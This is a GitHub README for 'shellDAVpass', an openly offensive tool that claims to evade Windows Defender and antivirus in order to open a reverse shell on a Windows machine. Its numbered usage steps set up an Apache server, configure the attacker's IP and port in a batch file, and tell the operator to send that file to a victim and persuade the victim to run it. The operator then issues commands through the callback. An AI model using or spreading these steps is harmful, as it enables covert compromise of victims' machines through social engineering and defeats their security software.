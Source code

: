 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. cd shellDAVpass
6. nano shellDAVpass.bat
7. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
8. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
9. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
10. Launch the command prompt
  bash bash shellDAVpass.sh
11. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/12/AutoSUID_Video.gif)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/11/AutoSUID.png)
